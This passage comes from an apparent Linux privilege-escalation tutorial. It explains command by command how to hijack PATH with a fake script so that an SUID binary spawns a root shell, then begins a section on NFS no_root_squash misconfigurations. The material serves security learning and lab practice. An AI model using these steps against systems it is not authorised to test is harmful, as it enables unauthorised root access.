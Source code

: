 ```bash
# Spawns root shell
whoami
# Output: root
```

**Word-by-Word Explanation**:
- `echo $PATH`:
  - `echo`: Prints text.
  - `$PATH`: The PATH environment variable.
  - *Purpose*: Shows where Linux looks for executables.
- `find / -writable -type d 2>/dev/null`:
  - `find`: Searches for files/directories.
  - `/`: Root directory.
  - `-writable`: Matches writable items.
  - `-type d`: Limits to directories.
  - `2>/dev/null`: Suppresses errors.
  - *Purpose*: Finds writable directories like `/home/user`.
- `export PATH=/home/user:$PATH`:
  - `export`: Sets an environment variable.
  - `PATH=/home/user:$PATH`: Adds `/home/user` to the start of PATH.
  - *Purpose*: Ensures Linux checks `/home/user` first for executables.
- `echo '#!/bin/bash' > /home/user/thm`:
  - `echo`: Prints text.
  - `'#!/bin/bash'`: Specifies a Bash script.
  - `>`: Creates/overwrites the file.
  - `/home/user/thm`: The fake program.
  - *Purpose*: Starts a script named `thm`.
- `echo '/bin/bash' >> /home/user/thm`:
  - `echo`: Prints text.
  - `'/bin/bash'`: Command to spawn a shell.
  - `>>`: Appends to the file.
  - `/home/user/thm`: The target file.
  - *Purpose*: Makes `thm` spawn a Bash shell.
- `chmod +x /home/user/thm`:
  - `chmod +x`: Makes the file executable.
  - `/home/user/thm`: The fake program.
  - *Purpose*: Allows the script to run.
- `/usr/local/bin/test`:
  - `/usr/local/bin/test`: An SUID script that calls `thm` without a full path.
  - *Purpose*: Runs the script, which executes `/home/user/thm` as root due to SUID.
- `whoami`:
  - *Purpose*: Confirms root access.

**Note**: Requires an SUID script that uses relative paths.

---

### 6. NFS Misconfigurations

**Description**: Network File System (NFS) shares folders across systems. If a share has `no_root_squash`, you can create root-owned files with SUID, which can be executed on the target system.
